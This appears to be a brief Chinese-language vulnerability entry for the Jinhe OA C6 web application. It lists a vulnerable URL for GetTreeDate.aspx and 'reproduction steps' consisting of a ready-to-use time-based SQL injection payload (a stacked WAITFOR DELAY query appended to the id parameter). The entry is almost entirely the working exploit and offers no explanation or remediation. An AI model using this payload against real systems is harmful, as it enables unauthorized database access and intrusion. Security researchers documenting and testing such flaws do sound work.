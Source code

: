 1. ​       漏洞链接

http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1

1. ​       复现步骤

http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1%3bWAITFOR+DELAY+'0%3a0%3a5'+--%20and%201=1